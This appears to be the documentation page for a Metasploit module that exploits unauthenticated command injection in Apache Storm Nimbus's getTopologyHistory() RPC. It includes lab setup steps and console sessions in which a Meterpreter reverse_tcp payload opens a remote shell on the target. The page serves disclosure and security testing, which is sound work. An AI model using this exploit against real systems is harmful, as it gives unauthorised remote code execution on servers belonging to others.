 ## Vulnerable Application

This module exploits an unauthenticated command injection vulnerability within the Nimbus service
component of Apache Storm. The `getTopologyHistory()` RPC method method takes a single argument
which is the name of a user which is concatenated into a string that is executed by bash. In
order for the vulnerability to be exploitable, there must have been at least one topology
submitted to the server. The topology may be active or inactive, but at least one must be present.
Successful exploitation results in remote code execution as the user running Apache Storm.

This vulnerability was patched in versions 2.1.1, 2.2.1 and 1.2.4. This exploit was tested on version 2.2.0
which is affected.

## Verification Steps

1. Setup a minimal Storm cluster using the published docker images. The following steps were adapted from [Docker
  reference][1].
  * The following steps can be executed to start up a minimal Storm cluster, but requires the [Storm Starter][2] jar
    to exist in the current directory as `topology.jar`. Follow the steps on the [projects page][3] to build it with
    Maven. Storm Starter v2.4.0 was used for testing.

```
# 1. Start a ZooKeeper server:
docker run -d --rm --name some-zookeeper zookeeper
# 2. Start a Nimbus server:
docker run -p 6627:6627 -d --rm --name some-nimbus --link some-zookeeper:zookeeper \
  storm:2.2.0 storm nimbus
# 3. Start a Supervisor server:
docker run -d --rm --name supervisor1 --link some-zookeeper:zookeeper --link some-nimbus:nimbus \
  storm:2.2.0 storm supervisor
# 4. Submit a topology using Storm Starter:
docker run --rm --link some-nimbus:nimbus -it -v $(pwd)/topology.jar:/topology.jar \
  storm:2.2.0 storm jar /topology.jar \
  org.apache.storm.starter.ExclamationTopology exclamation
```
2. Start `msfconsole`
3. Do: `use exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec`
4. Set the module options
5. Do: `exploit`
6. You should get a shell

## Options

## Scenarios

### Debian 11.1 x64, Apache Storm v2.2.4 (From Docker)

```
msf6 > use exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set LHOST docker0
LHOST => docker0
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set LPORT 6677
LPORT => 6677
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > show options

Module options (exploit/linux/misc/nimbus_gettopologyhistory_cmd_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   127.0.0.1        yes       The target host(s), see https://github.com/rapid7/
                                       metasploit-framework/wiki/Using-Metasploit
   RPORT    6627             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on.
                                       This must be an address on the local machine or 0.
                                       0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is rando
                                       mly generated)
   URIPATH                   no        The URI to use for this exploit (default is random
                                       )


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  docker0          yes       The listen address (an interface may be specified)
   LPORT  6677             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > check
[*] 127.0.0.1:6627 - The target appears to be vulnerable. Successfully tested command injection.
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > exploit

[*] Started reverse TCP handler on 172.18.0.1:6677
[*] 127.0.0.1:6627 - Running automatic check ("set AutoCheck false" to disable)
[+] 127.0.0.1:6627 - The target appears to be vulnerable. Successfully tested command injection.
[*] 127.0.0.1:6627 - Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 172.18.0.3
[*] 127.0.0.1:6627 - Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (172.18.0.1:6677 -> 172.18.0.3:49872 ) at 2021-11-18 16:59:00 -0600

meterpreter > sysinfo
Computer     : 172.18.0.3
OS           : Debian 11.1 (Linux 5.11.0-40-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: storm
meterpreter >
```

### Debian 11.1 x64, Apache Storm v2.2.0 (From Docker)

```
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set TARGET  1
TARGET => 1
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > set PAYLOAD  linux/x64/meterpreter/reverse_tcp
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > check
[*] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
msf6 exploit(linux/misc/nimbus_gettopologyhistory_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] 192.168.159.31:6627 - Running automatic check ("set AutoCheck false" to disable)
[+] 192.168.159.31:6627 - The target appears to be vulnerable. Successfully tested command injection.
[*] 192.168.159.31:6627 - Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.31
[*] 192.168.159.31:6627 - Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.31:51680 ) at 2021-11-12 14:45:37 -0500

meterpreter > getuid
Server username: storm
meterpreter > sysinfo
Computer     : 172.17.0.3
OS           : Debian 11.1 (Linux 5.4.0-89-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

[1]: https://hub.docker.com/_/storm
[2]: https://github.com/apache/storm/tree/master/examples/storm-starter
[3]: https://github.com/apache/storm/tree/master/examples/storm-starter#build-and-install-storm-jars-locally
